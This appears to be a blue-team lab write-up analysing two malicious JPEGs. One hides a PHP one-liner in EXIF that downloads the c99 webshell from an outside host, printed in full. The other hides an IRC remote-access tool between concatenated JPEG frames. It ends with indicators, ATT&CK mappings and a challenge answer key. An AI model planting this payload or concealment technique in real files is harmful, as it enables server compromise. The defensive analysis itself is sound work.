





## Scenario

As part of researching different security control bypassing techniques, the red team provided two JPEG samples to the blue team to study and understand the behaviour. S1 indicates Sample1 (`totamtoWithShell.jpg`), S2 indicates Sample2 (`malware.jpg`).

---

## Methodology

### S1 — totamtoWithShell.jpg

#### Initial Triage

`file` confirms a standard JPEG with EXIF data — the EXIF description field immediately flags the sample:

```zsh
file totamtoWithShell.jpg
# JPEG image data, JFIF standard 1.01, Exif Standard: [description=TomatoReverseShell, copyright=TomatoGang]
```

#### EXIF Analysis

`jpegdump.py` and `exiftool` surface the full metadata:

```bash
exiftool totamtoWithShell.jpg
```



The XP Comment field contains the full PHP payload:

```zsh
<?php ob_clean(); system("lynx -source http://c0deblocker.alterxp.org/sauce.txt > cshell.php"); die(); ?>
```

This one-liner uses `lynx` to download `sauce.txt` from the attacker's domain and write it to `cshell.php` — deploying the c99 webshell. The download URL, scripting language, and webshell name are all recoverable from EXIF alone without any execution or decryption.

The AES-256-CBC encrypted PHP function elsewhere in the shell (`e7061`) uses hardcoded key and IV `1234567891234567` — trivially weak but a red herring for answering the lab questions. All answers for S1 are in the EXIF metadata.

---

### S2 — malware.jpg

#### Initial Triage

`file` shows a plain JPEG with no EXIF anomalies — no metadata flags this sample:

```zsh
file malware.jpg
# JPEG image data, JFIF standard 1.01, resolution (DPI), density 72x72, progressive, 2304x3456
```

#### JPEG Structure Analysis

Running `jpegdump.py` with MD5 hashing reveals the file is not a single JPEG — it contains three concatenated JPEG images:

```bash
python3 jpegdump.py -E md5 malware.jpg
```




Three SOI (`FFD8`) and EOI (`FFD9`) markers are present. Critically, the `d=` value (delta — bytes between segments) for the second SOI is non-zero, indicating data exists between the first EOI and the second SOI. This is the James Webb Space Telescope malware technique documented by Didier Stevens at SANS ISC — malware authors concatenate `JPEG + payload + JPEG + JPEG` to hide a PE inside a fake PEM certificate block between image boundaries.

#### Payload Extraction

The hidden data between the first EOI and second SOI is extracted:

```bash
python3 jpegdump.py malware.jpg -s 29d -d > malware.crt
```

The output is a PEM-format certificate block — but the base64 data starts with `TV` instead of the valid certificate prefix `M`, indicating the decoded content begins with `MZ` — the PE magic bytes.

The PE is extracted by stripping the PEM headers and base64 decoding:

```zsh
import base64
data = open('malware.crt').read()
lines = [l for l in data.splitlines() if not l.startswith('-----')]
pe = base64.b64decode(''.join(lines))
open('malware.exe','wb').write(pe)
# PE size: 18944 bytes — Magic: b'MZ' confirmed
```

#### Malware Analysis

The extracted PE is a .NET assembly (`mscoree.dll`, `MyApplication.app` manifest). Standard `strings` is insufficient for .NET — the meaningful strings are in the metadata heap. `cat` on the raw binary surfaces the version info block and embedded strings:

```zsh
cat malware.exe
```



Key findings from the binary:
```
OriginalFilename: vxtnt1tn.exe
C2: 46.101.166.191:6667
Process masquerade: igfxTray (Intel Graphics Tray — legitimate Intel Corporation process)
````

Port `6667` is the default IRC port — this is an IRC-based RAT using `igfxTray` as a process name to masquerade as a legitimate Intel graphics component.

---

## Attack Summary

|Phase|Action|
|---|---|
|Delivery|Malicious JPEG files distributed to blue team for analysis|
|S1 — Webshell Staging|PHP payload embedded in EXIF XP Comment field of `totamtoWithShell.jpg`|
|S1 — Webshell Download|`lynx -source` pulls c99 webshell from `hxxp[://]c0deblocker[.]alterxp[.]org/sauce.txt`|
|S2 — Steganography|.NET IRC RAT concealed as fake PEM certificate between concatenated JPEG boundaries|
|S2 — Masquerading|Malware uses `igfxTray` process name to impersonate legitimate Intel graphics process|
|S2 — C2|IRC callback to `46[.]101[.]166[.]191:6667`|

---

## IOCs

|Type|Value|
|---|---|
|File (S1)|totamtoWithShell.jpg|
|File (S2)|malware.jpg|
|File (S2 extracted)|vxtnt1tn.exe|
|URL (S1)|hxxp[://]c0deblocker[.]alterxp[.]org/sauce.txt|
|IP (S2 C2)|46[.]101[.]166[.]191|
|C2 (S2)|46[.]101[.]166[.]191:6667|
|Process (masquerade)|igfxTray|
|EXIF Description|TomatoReverseShell|
|EXIF Copyright|TomatoGang|

---

## MITRE ATT&CK

|Technique|ID|Description|
|---|---|---|
|Server Software Component: Web Shell|T1505.003|c99 PHP webshell deployed via EXIF-embedded download command|
|Obfuscated Files or Information|T1027|PE hidden inside fake PEM certificate between concatenated JPEG boundaries|
|Masquerading|T1036.005|Malware binary named to impersonate Intel's legitimate `igfxTray.exe` process|
|Application Layer Protocol|T1071.001|IRC used as C2 communication channel on port 6667|

---

## Defender Takeaways

**EXIF metadata as a payload carrier** — JPEG EXIF fields accept arbitrary text and are rarely inspected by security controls. The XP Comment field in S1 contained a fully functional PHP execution chain. File upload controls that validate MIME type and extension without inspecting metadata can be trivially bypassed. Deep inspection of EXIF fields — particularly Comment, Description, and custom XMP fields — should be part of any file upload security control.

**JPEG polyglot steganography** — S2 demonstrates the James Webb technique: a valid JPEG remains fully renderable while carrying an arbitrary payload in the gap between concatenated image boundaries. Antivirus scanners that parse only the first JPEG frame will miss content appended after the first EOI. Detection requires full file parsing with tools like `jpegdump.py` that flag non-zero delta values between segments and multiple SOI/EOI pairs.

**PEM certificate spoofing as a delivery mechanism** — The PE was wrapped in a fake PEM certificate block, exploiting the trust associated with certificate files. A valid certificate's base64 data begins with `M`; data beginning with `TV` (decoded `MZ`) is a PE. Inspecting certificate files for PE magic bytes is a practical detection rule for this technique.

**IRC as a C2 protocol** — Port 6667 IRC traffic from endpoints that have no business need for IRC should be treated as a high-confidence C2 indicator. IRC-based RATs are a well-established technique that predates HTTP-based C2 — legacy protocol monitoring is still relevant.

**Process name masquerading** — `igfxTray.exe` is a legitimate Intel Graphics Tray process. Verifying process image path (legitimate `igfxTray.exe` lives in `C:\Windows\System32\`) against process name is a simple but effective detection. Any `igfxTray.exe` running from an unexpected path is malicious.

---

<div class="qa-item"> <div class="qa-question-text">S1: Submit the URL responsible to download the webshell (Format: http://domain.tld/filename.ext)</div> <div class="flag-reveal"> <input type="checkbox"> <span class="r-placeholder">Click flag to reveal</span> <span class="r-answer">http://c0deblocker.alterxp.org/sauce.txt</span> <button class="copy-btn" onclick="event.stopPropagation();navigator.clipboard.writeText(this.previousElementSibling.textContent);this.textContent='copied';setTimeout(()=>this.textContent='copy',1500)">copy</button> </div> </div>

<div class="qa-item"> <div class="qa-question-text">S1: What is the scripting language observed in the downloaded webshell? (Format: Language Name Abbreviation)</div> <div class="answer-reveal"> <input type="checkbox"> <span class="r-placeholder">Click to reveal answer</span> <span class="r-answer">PHP</span> <button class="copy-btn" onclick="event.stopPropagation();navigator.clipboard.writeText(this.previousElementSibling.textContent);this.textContent='copied';setTimeout(()=>this.textContent='copy',1500)">copy</button> </div> </div>

<div class="qa-item"> <div class="qa-question-text">S1: The downloaded file was found to be a well known webshell. Submit the name of the webshell! (Format: WebshellName)</div> <div class="flag-reveal"> <input type="checkbox"> <span class="r-placeholder">Click flag to reveal</span> <span class="r-answer">c99</span> <button class="copy-btn" onclick="event.stopPropagation();navigator.clipboard.writeText(this.previousElementSibling.textContent);this.textContent='copied';setTimeout(()=>this.textContent='copy',1500)">copy</button> </div> </div>

<div class="qa-item"> <div class="qa-question-text">S2: Submit the C2 server IP address and the port used for communication (Format: IP:Port)</div> <div class="answer-reveal"> <input type="checkbox"> <span class="r-placeholder">Click to reveal answer</span> <span class="r-answer">46.101.166.191:6667</span> <button class="copy-btn" onclick="event.stopPropagation();navigator.clipboard.writeText(this.previousElementSibling.textContent);this.textContent='copied';setTimeout(()=>this.textContent='copy',1500)">copy</button> </div> </div>

<div class="qa-item"> <div class="qa-question-text">S2: What is the name of the Intel Corporation process observed in the sample? (Format: ProcessName)</div> <div class="flag-reveal"> <input type="checkbox"> <span class="r-placeholder">Click flag to reveal</span> <span class="r-answer">igfxTray</span> <button class="copy-btn" onclick="event.stopPropagation();navigator.clipboard.writeText(this.previousElementSibling.textContent);this.textContent='copied';setTimeout(()=>this.textContent='copy',1500)">copy</button> </div> </div>

<div class="qa-item"> <div class="qa-question-text">S2: Submit the Original Filename of the embedded malware (Format: filename.ext)</div> <div class="answer-reveal"> <input type="checkbox"> <span class="r-placeholder">Click to reveal answer</span> <span class="r-answer">vxtnt1tn.exe</span> <button class="copy-btn" onclick="event.stopPropagation();navigator.clipboard.writeText(this.previousElementSibling.textContent);this.textContent='copied';setTimeout(()=>this.textContent='copy',1500)">copy</button> </div> </div>
